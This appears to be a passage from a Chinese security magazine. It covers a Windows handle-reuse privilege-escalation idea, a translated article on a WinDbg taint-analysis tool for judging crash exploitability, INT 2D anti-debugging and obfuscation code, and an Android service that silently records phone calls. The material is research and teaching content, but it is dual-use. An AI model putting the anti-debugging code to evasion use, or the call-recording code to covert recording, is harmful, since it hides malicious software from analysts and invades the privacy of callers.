为了防止未授权的文件访问攻击，`OpenFile` 函数在真正打开指定文件之前，会调用 `NtImpersonateThread` 来模拟客户端。此时，对应的服务将无法打开一个没有访问客户端上下文权限的文件。然而，在处理 `WriteToFile` 请求时，系统并不会确认客户端文件句柄是否处于活动状态（例如此前未调用 `CloseHandle` 关闭）。此时系统可能会误认为客户端在合法地写一个事先具有特殊权限令牌的合法客户端打开的文件，但实际上执行的句柄操作却是已经关闭的句柄。

真实环境下攻击者是否能够利用此漏洞来控制服务端的句柄操作，需要攻击者有一定的技术水平。在未加载内核模块或者使用一些内核内存泄露 0day 的情况下，攻击者将难以确定 `FirstFree` 和 `LastFree` 队列内容。因此，很难猜测在空闲队列中存在多少个空闲句柄、具体内容是什么以及它们在队列中的顺序等。除非恶意程序能够绕过当前进程状态，在攻击者进程上下文内向对象管理器发起大量的句柄请求，以此耗尽空闲句柄池；另一个可能的解决方案即使用上百个空闲句柄代替某个句柄，以此来增加碰撞的可能性，即请求到高特权级对象。这种技术很类似于基于浏览器的堆喷射技术。

### 小结

本文主要讨论的是 Windows 内核中的句柄管理算法实现机制。有趣的是，句柄分配的某些特性可被认为是资源管理中的安全缺陷，而且有可能被攻击者利用。由于句柄与本地机器和操作系统的特性密切相关，故攻击范围可能只限于本地特权提升攻击。笔者最感兴趣的还是如何设计出一种可行方案，有效控制句柄表的分配、空闲队列的布局和顺序，望大家共同切磋。

前置知识：无

关键词：动态分析，漏洞，补丁

## 程序动态分析与软件漏洞利用

文 BSDaemon  译 riusksk（泉哥）

### 前言

当前程序分析一直是一个热门话题，许多人都在讨论这一话题，现有的一些 fuzzer 也找到了许多程序崩溃漏洞。而在本文中所使用的程序分析方法，是通过打造一款计算系统以自动分析程序行为（或者起码可减少手工分析的工作量），并从中得到一些有价值的信息。

在世界上，你可以从一大堆软件里面找到成千上万个崩溃漏洞，它们在一些非常重要的软件中被轻易发现，而这类 bug 的可利用等级也是我们首要考虑的问题。众所周知，fuzzer 们所发现的各类 bug 是不可能全部补上的（或因不存在，或因无人愿意修补，又或者其他借口而不愿修补软件），但至少有些公司还是愿意去修补（或者利用）这些存在可利用漏洞的软件的。对于分析这些崩溃问题，微软只提供了一种解决方案（该工具被命名为 !exploitable 或者 bang exploitable），但实际上它对于创建 exploit …若更好地理解问题本质，并没有多大的帮助，因为它只是给出一个静态的评定等级（exploitable、probably exploitable、not exploitable 或者 unknown）。但遗憾的是，连一些手握源码的人有时也依靠这些工具来评定漏洞的可利用等级（有时对于代码结构清晰的情况，这类漏洞还是很容易分析的）。

污点分析（Taint Analysis）的概念和质疑正被人们所提出，为的是希望能够测定出可行的解决方案，并提供更好的长远计划和提升空间。

本文主要讨论一些关于解决方案的想法，比如程序执行流分析、污点分析、污染源（taint source），以及如何将汇编代码与污点（漏洞）位置相对应，以便于理解漏洞成因。

## 思路与扩充

这部分是本文的核心内容，它讨论了在软件漏洞利用过程中，我们所使用的程序分析技巧中最为艺术的部分。为帮助大家理解附件中的代码，笔者将会在此讨论本文涉及的各类问题和概念。理解这部分内容并不需要你具备漏洞利用的经验，只需义务性地使用笔者所提供的解决方法，因为它能够辅助分析进程，并自动检测攻击者是否可控制此崩溃漏洞，同时追踪引起此漏洞的崩溃点。

### 污点分析

污点分析属于程序流分析的一种。上下文中所提及的程序流分析，其背后的主要思想就是外部数据的影响超过了分析程序本身。用通常的说法来讲，由于信息流复制或影响了其他数据，所以可通过跟踪这类影响结果来检测特定数据（寄存器、内存地址）的可控程度，这也是后面检测漏洞可利用性的必备条件。为了跟踪信息流，我们需要追踪所有的污染源，以及被影响到的其他相关数据。这意味着当一个污染地址被其他污染数据中的某值所使用时，我们也需要标记其他也被污染的位置。这种情况被称为污点传播，它存在着下列的过渡关系。

- 如果所使用的信息 A 来源于信息 B：A->t(B) -> Direct flow。
- 如果所使用的信息 B 来源于信息 C：B->t(C) -> Direct flow。
- 因此：A->t(C) -> Indirect flow。

上面两者之间的过渡关系被称为“flows”，可被用来一个个分析或者一块块（例如上面的 A->t(C)）分析。A 位置被定义为：

- A 内存地址和大小。
- A 寄存器名称（需整体考虑一个寄存器，例如 %eax 和 %al 不要区别对待）。也就是说，去确定一个寄存器是否被污染时，如果已设置高位，那么低位将会被污染到（例如当 %al 被污染后，它也将污染到 %eax）。同时也应该注意，当 %al 被确定污染后，%ah 是没有被设置的。

追踪寄存器的位操作，这对于分析污染控制流图表上的代码块相当重要【5】。但这添加了额外的复杂度，因为这是控制流图表（flow graph），并且是数据流依赖图表（data flow dependencies graph）。这种依赖图表可显示出流数据被执行后的效果。

在本文所提供的方法中，仍将正常使用 WinDBG 插件，并通过 GUI 程序保存最后检测到的使用值，以便于查看污染数据。

### 污染源

污染源就是一些被污染的不可信信息。本文所指的不可信信息是指可被攻击者控制的信息。这也是处理污染数据时的一种传输关系，这些不可信信息会接收来自污染源的数值，跟着也变成污染数据了。这类信息包括来自网络，或者从磁盘读取的数据（例如客户端利用）。

污染信息越多，传播就越广，我们就需要花费更多的资源来追踪它。在 fuzzing 环境下，使用污染数据来反馈程序行为，甚至服务端配置也可标记为污点（为了避免采用各种配置方式来测试服务端软件【22】）。

当从非污染源或者污染源接收到任务后，污染信息仅仅会被删除，同时生成一个攻击者不可控制的常数值。很多程序指令将会污染到数据，因此在进行程序分析时，污染数据会增多。

上例是一个很清晰的程序执行流，因为定义值在一些独立条件下将接收到程序所使用的污染值。当条件确定后，程序调用的执行流就很明确了，例如下面：

```c
if(x==1) y=0;z
```

这个在后面笔者会有所分析，对于条件语句就需要一种特殊的分析方式，分析它时一些工具确实很有用，比如 WinDBG 插件。

在追踪数据时存在两种特殊情况，一种是部分污染（当非污染源并不能完全控制污染数据时），另一种是混合污染（当来自某数据的两种不同非污染源被使用时）。总的来说，结果还是被污染了。当一个数据域被某操作数引用时，它就“被使用”了；而当数据被修改时，它被“定义”了。纯粹完成某些任务的指令是很容易追踪的，如果污染地址被用来定义其他地址，那么这一新地址也将被污染。字符串操作在以下情况会被污染到：

- 使用污染地址去计算字符串大小，例如：

```c
a = strlen(tainted(string));
```

当字符串被污染后，我们就可以认定攻击者也控制了 a 值。

- 使用污染地址去搜索特定字符，并通过设置 flag 标志来定义是否找到，例如：

```c
pointer = strchr(tainted(string), some_char);
if (pointer) flag = 1;
```

当字符串被污染后，我们就可以认定攻击者也部分控制了 flag，如果攻击者控制了其他 some_char 值也有类似效果。

当执行的指令已经使用了至少一个污染数据，那么通常都会得到一个被污染的结果，因为攻击者起码已经部分控制了结果。这些指令可简单地使用中间语言来映射成布尔操作，并遵循以下规则：

Or truth table:

| X | Y | X or Y |
|---|---|--------|
| 0 | 0 | 0 |
| 0 | 1 | 1 |
| 1 | 0 | 1 |
| 1 | 1 | 1 |

And truth table:

| X | Y | X and Y |
|---|---|---------|
| 0 | 0 | 0 |
| 0 | 1 | 0 |
| 1 | 0 | 0 |
| 1 | 1 | 1 |

Xor truth table:

| X | Y | X xor Y |
|---|---|---------|
| 0 | 0 | 0 |
| 0 | 1 | 1 |
| 1 | 0 | 1 |
| 1 | 1 | 0 |

假设使用了一处污染数据：

- 在执行 or 操作的情况下，如果使用的未污染数据是 1，那么我们就无法重新定义新的操作结果，因此我们无法篡改数据结果。但如果是 0 的话，那么就可构造出任意值的污染数据，也就是说操作结果被污染了。
- 当执行 and 操作时，在另一方面，如果使用未污染数据的寄存器的值为 0，那么就无法篡改结果，因此也就无法污染到其他数据。如果值为 1，那么我们完全是可以控制结果的，因此数据是可污染的。
- 在 xor 操作中存在一种特殊情况，那就是当对自身进行异或操作时，若使用的是受污染的数据进行自身异或，那么得到的结果（0）是不受污染的。

通过追踪 EFLAGS 寄存器来判断攻击者何时篡改了数据（后面用于判断它对数据流操作的影响度），这也不失为一种好办法。

在由 WinDBG 插件生成的追踪分析信息中，应该多注意其中的条件分支，这可使用单步调试来追踪。WinDBG 提供有当前指令的反汇编代码，我们可通过分析它们来追踪被污染的数据。为了解决工具的限制问题，需要分析未被原始崩溃数据所创建的条件跳转情况，这时我们就需要仔细去分析各类条件跳转以及标志寄存器。

- 如果攻击者能够确定 EFLAGS，同时有个跳转依赖于 flag，那么攻击者就可控制分支结果（这在 !exploitable 中会被认为 unknown，因为它存在各种可能性——简单地控制 EIP 并不能完全去确定其可利用性，因为控制 EIP 指向的内存地址也是必要的）。Ret-into-lib 技术需要控制各个参数，而 ROP 技术则需要多次返回到满足要求的指令地址（gadget）。
- 控制分支跳转即意味着污染 EIP，因为攻击者至少能够部分地控制进程的执行流。
- 为了确定 EIP 值，我们必须确定：
  - 跳转后的地址；
  - 下一条指令的地址（未发生跳转）；
  - flag 寄存器值（0 或 1）；
  - 然后：`%eip <- (下一条指令的地址) + flag 寄存器值 * (跳转后的地址 - 下一条指令地址)`。

上面的公式可延展功能去污染整个代码流程块，如果某一特定代码块被攻击者控制了（并非由崩溃生成的输入值直接作为目的地址），那么我们就需要先解决实际的定值限制问题，不过其追踪的复杂度也会呈指数型增长。研究人员是有创造力的，他们创建出了其他各种污染分析方法，比如确定敏感数据在系统中的持续时间【6】，以及/或者正式定义一个安全信息流【7】。

### 中间语言和污染源

为了追踪污染源和控制污点传播，那么就必须采取一种程序分析方法，以帮助理解目标程序语言的语义。在高级语言中可用于污点分析的工具有用 C++ 和 Java 编写的一些工具【7】【8】【9】，但本文主要注重于汇编级的代码分析。笔者建议读者阅读一些关于符号化执行（symbolic execution）【9】【10】和 SAT Solvers【11】【12】【13】的文章，这些文章也是与本文主题息息相关的。

理解程序指令最为经典的方法就是使用一种中间语言，它可提高代码质量和程序的可移植性。在这方面有很多优秀文章可供参考，笔者推荐【14】【15】【16】等文章。同时笔者还想说，笔者是直接使用 WinDBG API 来分析的，它在考虑移植性方面并不是最好的方法，但它相对代码而言却是最快的。

WinDBG 插件是以 DLL 的形式被调试器使用 LoadLibrary 函数来加载的，并在调试器进程上下文中运行。这些插件是被调试器所信任的。调试器尝试去处理访问违例，但插件本身中的堆腐败会导致调试器崩溃。所有的调试器插件均会调用到 Win32 API 和调试器接口（dbgeng.dll）。最有趣的是调试器 API 将会提取目标的类型/版本，这就意味着你可以编写一个插件，让它可运行在处于活动状态的调试会话（live debugging session）或者 dump 文件之中，这对于用户模式/内核模式下的目标进程均适用。

- WdbgExts -> 旧版调试器扩展接口存在一些符号和类型查找的限制问题。
- DbgEng -> 新版调试接口是作为附加项目被添加进去的，为调试器的执行提供各类接口。

DbgEng 扩展 API 来源于 dbgeng.dll，通过调用接口来创建新的独立工具，以下是其具备的一些功能：

- 获取当前进程/线程信息；
- 读/写内存；
- 符号/类型查找。

在调用扩展函数之前，首先还需要创建调试接口对象，然后调用这些对象所提供的接口。使用 DbgEng 扩展函数必须先导出 DebugExtensionInitialize 入口点，然后再选择性地导出 DebugExtensionNotify 和 DebugExtensionUninitialize 入口点。如之前所述，调试器将使用 LoadLibraryW 来加载扩展 DLL 文件，然后使用 GetProcAddress() 去查找函数入口点。代码如下：

```c
HRESULT CALLBACK DebugExtensionInitialize(
    OUT PULONG Version,
    OUT PULONG Flags
)
```

在加载扩展函数之前需要先调用这一强制性入口点。

比如函数通过以下代码来获得新的调试器接口：

```c
if ((Hr = DebugCreate(__uuidof(IDebugClient),
        (void **)&DebugClient)) != S_OK)
...
if ((Hr =
    DebugClient->QueryInterface(__uuidof(IDebugControl),
        (void **)&DebugControl)) != S_OK)
```

可选函数：

```c
void DebugExtensionNotify(
    OUT ULONG Notify,
    OUT ULONG64 Argument
)
```

调用上述函数后，即可连接或新开目标，也可不在代码中使用该函数。当插件被卸载后，DebugExtensionUninitialize 会被调用，用于执行清除例程，代码如下：

```c
HRESULT CALLBACK vdt_trace(PDEBUG_CLIENT Client, PCSTR args)
```

它可作为调试器的一个插件来使用（直接在调试器中使用 !vdt_trace 来调用），其中 args 参数是传递给插件的命令行参数字符串。此 API 函数用在获取进程信息时是很有用的，笔者强烈建议读者去阅读一下关于它的源码。

### 可控数据的暴增

有分析过污点传播的朋友可能知道里面一个最大的难点就是如何追踪各类数据的变化。在此我们需要先具备以下知识：

- 识别出所有的指令和操作数；
- 找出污染源、污染的目标地址以及其他受影响的各个寄存器（某些情况下是不用追踪受影响的寄存器的，比如 EFLAGS 中的比较标志）；
- 标记所有污染数据；
- 理解每一条指令的执行行为。

显而易见，追踪以上所有信息是很占用性能的，即性能密集型（performance-intensive），它将影响到决策时间以及后续工作。关于指令的隐性和显性操作数，它们都需要支持所有的环境，否则在追踪一些重要的污染数据时容易丢失。下面提供一个关于 `push %eax` 操作指令的例子【5】：

- 显性操作数：%eax 寄存器；
- 隐性操作数：%esp 和 ss；
- 语义：%esp <- %esp-4（subtraction）  
  ss:[%esp] <- %eax（move）。

如前所述，这是经中间语言处理的。在此我们需要追踪基本的内存区域，以及它们的大小和寄存器名称（保持按位信息——这相对于字节级【21】可更好地避免误报，但收集的数据量极易发生数据爆炸）。

布尔操作也存在一种特殊情况，就是当它们对相同数据或者固定值进行操作时可能会生成不同的结果，比如相同的污染数据进行异或操作将返回未污染的信息（比如与 0 操作等等）。正如前面解释的，一些字符串指令也可能被污染（一些整数溢出的发生可以是由数据大小计算错误导致的）。关于字符串的污染操作将在后续的“从崩溃到利用”一节中讲到。污染数据可以在系统中存在很长时间，进而又导致其他问题的出现（若要删除追踪数据，就得要求该数据是接收一个不可控制值的，或者已经以某种方式被释放了）。在数据追踪过程中的指令复杂度应该简单些，便于加快分析进度。

污点分析可能面临着各种挑战，比如可能会遇到缺乏某一特定文件格式或协议的源数据等详细信息，因此对于构造可用的 exploit 也是存在很大困难的。在此笔者使用了一种与众不同的方法。这种方法在你重现崩溃事件后非常有用，这种方法就叫污点回溯分析。

### 污点回溯分析

污点回溯分析是通常的数据流污染分析的逆向方法。基本的方法就是不采集获取所有的输入数据，而是将它们标记为污点，并在程序执行过程中去追踪它们，而我们要做的就是让它在发生崩溃时，能从中找到一些引起程序崩溃的有趣数据，接着回溯追踪它是否来自输入数据；若是，则修改它再执行测试。这种方法避免了污染数据的暴增，因为大部分的输入数据是不受污染的（通常都是合法的）。这个分析过程分成两部分。

- 从状态良好到程序崩溃（快速将其 dump 到文件中）的追踪过程 -> 当程序接收输入数据时，尽量多地收集关于目标程序的信息，这一过程通常称为“分析”。
- 分析追踪文件 -> 通常称为“验证”步骤，这是明确分析的关键步骤。

追踪过程中可收集一些有用的信息，比如有影响作用的地址以及数值（后面可用于检测数据是复制到哪里，以及它是如何被影响的）。注意：

- 这是使用 WinDBG 插件来完成的。
- 只支持基础 x86 指令集（因此不支持 MMX 和 SSE）。这就局限了某些情况下的分析，并且只能在支持的指令集上进行扩充。由于此项目是开源的，所以希望有人可提交补丁给笔者，以帮助改进。
- 简化指令集使下一步操作更为轻松。

为了简化指令集，就需要处理一些特殊情况，比如以下指令：

- CMPXCHG r/m32, r32 -> 将 EAX 与 r/m32 进行比较，如果相等，则 ZF 被标记，同时 r32 被加载进 r/m32；否则清除 ZF，并将 r/m32 加载进 AL【7】。

像这类指令需要一定条件才可被污染，攻击者可通过控制 %ecx 和 r32 来控制 r/m32。

追踪过程中可生成文件以用于下一步的操作，该文件包含：

- 指令的内存地址；
- 操作数；
- 依赖的源操作数。

这里举个依赖操作数的例子，比如间接内存地址。它将创建一个数据流结构树，而在崩溃指令中存在一个根（root）。分析步骤中接收的地址范围里包含有攻击者恶意构造的数据，然后对其进行自动分析，以检测出哪些数据被恶意控制了。

- 这是一个独立工具（位于同一项目文件中），并且拥有界面！

由于数据流在崩溃指令的树根中是有效的，因此分析过程只需在这一树中进行搜索，这个借助 BFS 算法【18】（译注：宽度优先搜索）即可实现。下面看些代码例子：

```asm
1-) mov edi, 0x1234        ; dst=edi, src=0x1234
2-) mov eax, [0xABCD]      ; dst=eax, src=ptr 0xABCD
; 注意 0xABCD 是一个邪恶的地址
3-) lea ebx, [eax+ecx*8]   ; dst=ebx, src=eax, srcdep1=ecx
4-) mov [edi], ebx         ; dst=ptr 0x1234, src=ebx
5-) mov esi, [edi]         ; dst=esi, src=ptr 0x1234, srcdep1=edi
6-) mov edx, [esi]         ; 崩溃!!!
```

树结构看起来如下：

- 6) [esi] 来自哪里？
- 5) [edi] 赋予了 esi，edi 来自哪里，并且 [edi] 存在何值？
- 4) [edi] 接受从 ebx 传来的值，其中 edi 是在 1-) 中定义的，是一固定值。
- 3) ebx 来源于使用 eax 和 ecx 的 lea 指令。
- 2) ecx 接收一可被攻击者控制的数值。
- ... ecx 已经超出代码内容范围了。

### 从程序崩溃到利用

笔者是使用 Microsoft Visual Studio 2008 GUI 界面和命令行调试插件来编译项目的，这里不要忘记安装调试器插件 SDK【19】。为了编译程序，可先进入源目录，然后用 Visual Studio 打开项目。GUI 可通过 project build 进行编译，DLL 可通过命令行实现：

- 打开 DOS 提示符。
- 执行：

```bat
Cmd.exe /k C:\WinDDK\7600.16385.0\bin\setenv.bat \ C:\WinDDK\7600.16385.0\ chk WNET
```

- 打开目录 VDT-Tracer，并执行：

```bat
setpaths.cmd
```

- 在某些系统可能需要打开 makefile 文件（仅打开和关闭）：

```bat
edit makefile
```

- 然后编译：

```bat
bcz


```

- 将 `bin\i386\vdt-tracer.dll` 复制到 WinDBG 插件目录下。

附件中存在一个 Excel 文件，是两年前我一朋友在搞取证分析时遇到的一个问题：恢复 Excel 电子数据表后，去打开它就会引起 Excel 崩溃，这一文件的名称就叫 FIL573.XLS。这个问题在一年后被修复了。笔者并不打算在此讨论其具体的分析过程，但会说明如何通过工具来分析它……

首先打开 Excel 文件，然后用 WinDBG 附加它，如图 1 WinDBG_Attaching_to_Excel 所示。
在 CreateFile 函数上设置断点，如图 2 WinDBG_Breakpoint_CreateFile 所示。接着开始跟踪进程，以生成追踪文件，如图 3 WinDBG_Trace_VDT 所示。
再用 Excel 打开崩溃文件，如图 4 Opening_Crash_File_Excel 所示：
再用十六进制编辑器（笔者是使用 xvi32）打开文件，然后在程序内存中搜索输入的字符串，并在编辑器中找到它，以判断文件是在何处加载它的，如图 5 Finding_User_Input_in_Memory 所示。
这个也可以使用 WinDBG 的搜索功能去程序内存中定位用户输入的字符串，如图 6 WinDBG_Finding_User_Input_in_Memory 所示。
在 GUI 中打开数据追踪文件，如图 7 VDT_Open_Trace_File 所示（译注：图 3 中生成的 vdt 文件名叫 excel_phrack.vdt，但这里是 vdt-trace.vdt，可能是本文作者 BSDaemo 又重新生成了一次）。
然后添加污点范围，如图 8 VDT_Add_Taint_Range 和图 9 VDT_Add_Taint_Range2 所示。
接下来你就可以针对感兴趣的指令以及根据指定的内存范围进行污点分析了。先在任意指令上右击后弹出如图 10 VDT_Check_Taint_Of 所示的菜单。
然后选择“Check Taint Of”选项后，如图 11 VDT_Check_Taint_Of2 和图 12 VDT_Check_Taint_Of3 所示。
最后它就会给出指定程序操作数的所有污染信息，如图 13 VDT_Check_Taint_Of4 所示。
图 13　VDT_Check_Taint_Of4

### 解决方案与对比

微软发布了 !exploitable【5】插件以及源码，此举起了很大的主导作用，为研究者和软件厂商建立起了桥梁，因为至少现在一些厂家可以对报告的漏洞利用等级进行分类了。虽然这一工具在定义利用等级上有一些不足，但它提供了很好的扩展性支持，并在此领域开了个很好的头。这一工具的另一个优秀功能就是它能识别出独一无二的漏洞，用于消除重复的问题。下面举个例子：

```c
__declspec(naked) int main() {
    __asm {
        mov eax, 0x41414141
        call eax
    }
}


```

上例问题会被工具归类为 EXPLOITABLE，因为它总是认为攻击者能够控制所有的输入操作，如图 14 Bangexploitablefp 所示。
图 14　Bangexploitablefp

本文提供的解决方案与上述的判定方式有所不同，笔者为了节省漏洞分析的时间，完全通过下面的方法来判定漏洞的可利用性：输入操作数是否受攻击者控制？

lexploitable 工具：

- 分类单一问题（针对不同的代码路径、机器和多种不同的测试环境）；
- 快速区分处理的次序问题（由于崩溃可出现上千次，因此分析能力是十分有限的）；
- 分组进行崩溃分析。

笔者所提供的工具：

- 帮助读者创建 exploit 代码。

Piotr Bania 公布了一篇关于构造同类分析的文章，它提供了一个叫 SpiderPig【20】的项目。SpiderPig 项目并非用于测试，而是用于创建一个合理的对比。在 Piotr 的文章中，他解释了 Virtual Code Integration（或者 Dynamic Binary Rewriting）的方法。在“中间语言表示法”中所使用的技术，也被笔者的工具以不同的方式而采用了（这不是中间语言，但它是执行追踪中的一种正常输出）。SpiderPig 能够在部分可控数据的情况下解决一些特定的冲突问题，并创建一个可疑对象。在这些对象中，父对象也可用于分析。审查文中所提供的算法，可以发现 SpiderPig 貌似比笔者所提供的工具更高级些，但老实说，这并非如此。

污点检测【21】依赖于 DynamoRIO（译注：DynamoRIO 是一款动态二进制分析平台）或者 Valgrind（译注：Valgrind 是一款基于模拟 Linux 下的程序调试器和剖析器的软件套件），可用于进行污点分析，以检测软件的溢出状况。它并不能帮助你创建 exploit 代码，也不能检测漏洞的可利用性。它主要分为 taint-seed、taint-tracker 和 taint-assert，以定位原始污染值为目的，用于追踪传播以及警示安全漏洞。为了提供安全测试的解决方案，笔者在本文中也提到了一款堆管理工具。这一工具主要用于管理 Linux ARM 架构下的堆块（比 Valgrind Memcheck 插件更低端些，目前作者仅让其支持 ARM 平台）。

这一解决方案是笔者在面对一个复杂的客户端漏洞利用时想到的，这一漏洞包含着复杂的文件格式。而后面在涉及 Word【1】攻击场景后又开始对其功能进行扩充，思考着如何让其自动分析漏洞的可利用性。该方案的最初版本是与一个 fuzzer 工具整合在一块的，以提供内在信息，并反馈给 fuzzer 以便给出针对软件的关键信息【22】。它基于 UNIX 的解决方案，后来又支持 Solaris，为的是利用 Secunia【23】公布的两个漏洞；在其数月前 RISE 安全组织也在相同软件上发现了另一个漏洞。

笔者一个要好的朋友也在同一领域进行研究工作，对 Microsoft Debugger 有过很好的使用经验，因此我们决定整合我们的一些实现产品，以打造出最终版本……我们提供了污点回溯分析，它主要检测从崩溃到输入数据里面有哪些内容可被攻击者所控制，以便更好地利用程序漏洞。

### 未来与其他用途

我不能预知未来，我只是希望能有更多的研究者参与到此项目中来，以进一步完善它……当前代码需要支持 x86 指令的扩展，提升速度，启发式检测用户输入……有效版本是基于 Microsoft Debugger 实现的。

这些方法的一个局限性就是你需要先用 PoC 来跟踪执行流程直到崩溃，然后再回溯分析……它只是提供一些信息，以帮助你确定执行的 PoC 是否可控制某些内存数据。

这里面还有其他用途的地方，比如堆查看【24】。关于 Linux ARM 的一个堆查看例子在本文中有提及，其后续版本也可在 SourceForge【25】找到。与 fuzzer【22】整合在一块的版本可以帮助你更好地挖掘安全漏洞。

### 附件 [vdt_jfree.tgz]

关于附件中的一些文件说明：

- VDT Project：本文的主要项目，包含 WinDbg 插件以及一个 GUI 界面，用于分析崩溃文件，以辅助创建 exploit 代码。
- Jfree Project：一款 Linux-ARM 堆管理系统。
- Images 目录：一些关于程序和 VDT 插件的截图。

关于本工具的后续升级可在 RISE Security 网站上获取：

http://www.risesecurity.org

作者的公钥：  
http://www.kernelhacking.com/rodrigo/docs/public.txt

vdt_jfree.tgz 下载地址（译注：已包含在本文附件中）：  
http://www.phrack.org/issues.html?issue=67&id=10#article

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：无  
关键词：调试器，代码混淆

## 利用 INT 2D 检测调试器和代码混淆
文：ReWolf^HTB　译：胡文亮

### 背景

这可能是一种新型的调试器检测和代码混淆的好方法。

### 描述

Int 2D 是 ntoskrnl.exe 用来实现 DebugServices 的一个中断号，但我们已经能在 Ring 3 模式使用它。如果我们在一个普通的（没有被调试）程序里使用它，就会发生异常；如果程序被调试器依附了，就不会有异常。

```asm
push offset_seh    ;
push fs:[0]        ; 设置 SEH
mov  fs:[0], esp   ;
int  2dh           ; 如果被调试，就无异常，否则会得到异常
```

```asm
nop
pop fs:[0] ; 清除 SEH
add esp, 4 ;
...
检测到调试器
...
_sch
未检测到调试器
```

它能使 SoftIce 的 DbgMsg 驱动崩溃。

此外，Int 2D 也能用来实现代码混淆。被调试器依附后，当执行完 int 2D，系统会跳过在 Int 2D 后面的一个字节：

```asm
int 2dh
nop ; 不可能被执行
```

如果我们在 int 2D 后面单步执行（译者注：原文是 “if we'll execute step into/step over on int 2Dh”），不同的调试器有不同的表现：

- OllyDbg——继续运行直到（发现）下一个断点（如果有的话）；
- Visual Studio——停止在了 NOP 后面的那条指令；
- WinDbg——停止在了 int 2d 后面（即使继续按下“单步执行”）。

如果我们先行没有任何断点地运行程序，只有 OllyDbg 的表现是正确的。如果我们创建一个自调试程序（就像例子那个）就能利用 int 2D 实现代码混淆了。

#### 一、相关链接

- 1. http://www.vsj.co.uk/articles/display.asp?id=265
- 2. http://www.piotrbania.com/alladvs/ice-adv.txt

#### 二、感谢名单

omega red, Gynvael Coldwind, ved, Piotr Bania

#### 三、代码实现

作者给出的汇编代码我没有编译通过，所以就不贴出来了，详情请见附件。用 int 2D 检测调试器的方法，请见我用 C 语言写的代码：

```c
#include <Windows.h>
int main()
{
    char str0[]="Debugger not detected!";
    char str1[]="Debugger detected!";
    char str2[]="Check Debugger";
    PVOID p=(PVOID)GetProcAddress(LoadLibraryW(L"user32.dll"),"MessageBoxA");
    system("pause");
    __try
    {
        __asm //check debugger
        {
            int 0x2d
            nop
        }
    }
    __except(EXCEPTION_EXECUTE_HANDLER)
    {
        __asm //Debugger not detected!
        {
            xor eax,eax
            push eax
            lea eax,str2
            push eax
            lea eax,str0
            push eax
            xor eax,eax
            push eax
            call p
        }
        return 0;
    }
    __asm //Debugger detected!
    {
        xor eax,eax
        push eax
        lea eax,str2
        push eax
        lea eax,str1
        push eax
        xor eax,eax
        push eax
        call p
    }
    return 0;
}


```

把工程文件用 VS2010 打开后按 F5 键执行会弹出“Debugger detected!”，而在文件夹里直接双击 EXE 文件执行则会弹出“Debugger not detected!”。不过这种反调试的方法过不了 StrongOD 插件，过 StrongOD 还是要多费一点脑筋的。

#### 四、译者的话

本文是作者写于 2007 年 3 月的文章，虽然年代久远且文章极短，不过我觉得这种反调试思路很新颖，还是翻译了。为什么说这种反调试的思路新颖呢，因为我看过不少国人的反调试方案，什么“用 FindWindow 查找调试器窗口，并循环用 SendMessage 发送消息洪水结束调试器进程”，“用 SetWindowPos 把自己的窗口置顶，挡住调试器窗口”之类稳定性很差且极易 bypass 的方法。由于本人的英语水平有限，有些翻译结果可能与作者本意有一定的差别，还请各位读者不吝赐教。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：Java  
关键词：Android，Java，录音
## Android 制作系统安全研究

### 系列——通话录音

图/文 黑酷

网络“安全”对于每个用户来说是很重要的，但是手机“安全”却往往被大家忽视。今天我就为大家讲解一下如何编写“电话录音”。“电话录音”的功能就是别人给你打电话，当你从接电话开始一直到通话结束，这一段通话会被录音并以“3gp”的文件格式存放在 SD 卡里。废话少说了，下面我就为大家讲解一下如何编写“电话录音”。

“搭建环境”也许这对大家来说并不陌生吧，在这里我也不用多说了。首先我们先要建立一个 Android 项目，这也许对大家来说也是非常简单的了。建立好以后，我们还得在 src 这个包里新建一个服务，名字叫“PhoneListenerService”。我们在“Superclass”这一栏的右面点击“Browse...”，在“Choose a type”下面的框中填写“Service”，在“Matching items”的下方会看到“Service - android.app”，点击一下，再点“OK”键（如图 1 所示）。

然后点击“Finish”完成。点击我们刚建好的服务，现在我们必须要知道要用 `Context.startService()` 这个方法来启动服务。在服务未创建时系统会先调用服务的 `onCreate()` 方法，接着调用 `onStart()` 方法。如果调用 `startService()` 方法前服务已被创建，多次调用 `startService()` 方法并不会导致多次创建服务，但会导致多次调用 `onStart()` 方法。采用 `startService()` 方法启动服务，只能调用 `Context.startService()` 方法结束服务，服务结束时会调用 `onDestroy()` 方法。下面我们要复写 `onCreate` 这个方法，方法如下（如图 2 所示），点击完成即可。
图 1
图 2

我们首先要取得电话服务，然后监听电话的接听情况，代码如下：

```java
// 取得电话服务
TelephonyManager telManager =
    (TelephonyManager)getSystemService(Context.TELEPHONY_SERVICE);
PhoneStateListener listener = new PhoneStateListener(){
    private String incomingNumber;
    private boolean isrecord;
    private MediaRecorder recorder;
};
```

```java
@Override
public void onCallStateChanged(int state, String incomingNumber) {
    switch (state) {
        case TelephonyManager.CALL_STATE_IDLE: // 无任何状态时
            this.incomingNumber = null;
            if (recorder != null && isrecord) {
                recorder.stop();
                recorder.release();
                isrecord = false;
            }
            break;

        case TelephonyManager.CALL_STATE_OFFHOOK: // 接起电话时
            try {
                recorder = new MediaRecorder();
                recorder.setAudioSource(MediaRecorder.AudioSource.MIC);
                recorder.setOutputFormat(MediaRecorder.OutputFormat.THREE_GPP);
                recorder.setAudioEncoder(MediaRecorder.AudioEncoder.AMR_NB);
                SimpleDateFormat format = new SimpleDateFormat("yyMMddHHmmss");
                String filename = this.incomingNumber + "_" + format.format(new Date());
                recorder.setOutputFile("/sdcard/" + filename + ".3gp");
                recorder.prepare();
                recorder.start();
                isrecord = true;
            } catch (Exception e) {
                Log.e(TAG, e.toString());
            }
            break;

        case TelephonyManager.CALL_STATE_RINGING: // 电话进来时
            this.incomingNumber = incomingNumber;
            break;

        default:
            break;
    }
    super.onCallStateChanged(state, incomingNumber);
}

// 监听电话的状态
telManager.listen(listener, PhoneStateListener.LISTEN_CALL_STATE);
```

首先第一条代码是得到电话管理器，这个方法是用于得到电话系统服务；`telManager.listen` 这个方法是用于监听“电话的状态”，所以我们采用匿名内部类的写法，新建一个实现接口的匿名内部类对象，然后把监听者传进去。第二参数是监听电话的状态，我们最重要的代码就是在监听者里面去实现，当电话状态发生改变时就会由 Android 系统调用这个方法，然后就会把这些数据传进来。电话状态有三种：“无任何状态时”“接起电话时”“电话进来时”。如果没有状态的时候 `incomingNumber` 就会没值，“电话进来时” `incomingNumber` 就会有值。

